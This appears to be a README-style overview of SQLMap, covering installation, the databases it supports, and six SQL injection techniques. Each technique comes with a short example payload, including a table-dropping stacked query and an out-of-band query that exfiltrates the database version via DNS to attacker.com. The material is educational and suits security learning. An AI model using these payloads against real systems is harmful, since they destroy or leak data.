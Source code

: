 # SQLMap Overview
SQLMap is a free and open-source penetration testing tool written in Python. It automates the process of detecting and exploiting SQL injection (SQLi) flaws. SQLMap has been continuously developed since 2006.

## Installation
SQLMap is pre-installed on most security-focused operating systems. To install manually:
`
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
python sqlmap.py
`

## Supported Databases
SQLMap supports the following DBMSes:
-  MySQL
-  Oracle
-  PostgreSQL
-  Microsoft SQL Server
-  SQLite
-  IBM DB2
-  MariaDB
-  Amazon Redshift
-  Apache Ignite

## Supported SQL Injection Types
SQLMap can detect and exploit:
- **Boolean-based Blind**
- **Error-based**
- **Union Query-based**
- **Stacked Queries**
- **Time-based Blind**
- **Out-of-band**

## Examples of SQL Injection Techniques

### Boolean-based Blind SQL Injection
> Example Query: AND 1=1
SQLMap differentiates TRUE from FALSE responses by comparing server output to extract information.

### Error-based SQL Injection
> Example Query: AND GTID_SUBSET(@@version,0)
This technique uses database error messages to retrieve information.

### Union Query-based SQL Injection
> Example Query: UNION ALL SELECT 1,@@version,3
This is the fastest SQLi type as it retrieves data in a single request.

### Stacked Queries
> Example Query: ; DROP TABLE users
Allows execution of multiple SQL statements in one query.

### Time-based Blind SQL Injection
> Example Query: AND 1=IF(2>1,SLEEP(5),0)
Differentiates responses based on the server's response time.

### Out-of-band SQL Injection
> Example Query: LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
This advanced SQLi type uses DNS requests to exfiltrate data.

## Legal Disclaimer
Usage of SQLMap without proper authorization is illegal. Always ensure you have explicit permission before testing any system.
